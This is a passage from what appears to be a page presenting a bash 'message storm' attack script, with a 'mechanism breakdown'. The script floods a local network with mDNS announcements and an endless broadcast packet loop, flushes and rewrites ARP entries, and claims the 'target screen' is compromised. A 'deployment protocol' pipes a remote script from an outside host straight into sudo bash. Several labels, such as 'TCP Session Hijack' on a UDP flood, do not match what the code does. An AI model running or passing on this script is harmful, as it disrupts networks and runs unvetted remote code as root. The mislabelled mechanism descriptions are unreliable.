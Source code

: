 ```bash
    --data "$MSG" > /dev/null 2>&1 &

  # mDNS Neurostorm
  for i in {1..100}; do
    avahi-publish -s "GOTTED_$RANDOM" _gotted._tcp 1337 \
      "msg=$(echo "$MSG" | xxd -ps)" -v > /dev/null 2>&1 &
  done

  # TCP Session Hijack
  sudo python3 -c "from scapy.all import *; send(IP(dst='$(hostname -I | cut -d. -f1-3).255')/UDP()/Raw(load='$MSG'), loop=1, inter=0.0001)" &
}

# ========================
# █▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█
# █░░ VOID SHIELD ░░░░█
# █▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█
function void_shield() {
  # Quantum Packet Filter
  sudo iptables -A INPUT -m string --algo bm --hex-string "|$(echo -n $MSG | xxd -ps)|" -j DROP
  sudo iptables -A OUTPUT -m string --algo bm --hex-string "|$(echo -n $MSG | xxd -ps)|" -j DROP

  # Temporal ARP Lock
  sudo ip neigh flush all
  sudo arp -i $(ip route | awk '/default/{print $5}') -s $(ip route | awk '/default/{print $3}') $(ip link | awk '/link\/ether/{print $2}' | head -1)
}

# ========================
# █▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀█
# █░░ EXECUTION FLOW ░░█
# █▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄█
void_shield
inject_phantom

echo -e "\033[1;32m[+] Nuclear message storm engaged. Target screen compromised within 5-15 seconds.\033[0m"

# Clean Reality Fabric
trap 'sudo pkill -f "arp-sk|avahi-publish|python3"; sudo iptables -F' EXIT
```

**Deployment Protocol**:  
```bash
curl -sL https://raw.gotter.io/omega.sh | sudo bash
```

**Mechanism Breakdown**:  

1. **ARP Reality Distortion**  
   - Floods target ARP cache with malformed packets containing message  
   - Visible in `dmesg`, network monitors, and modern desktop environments  
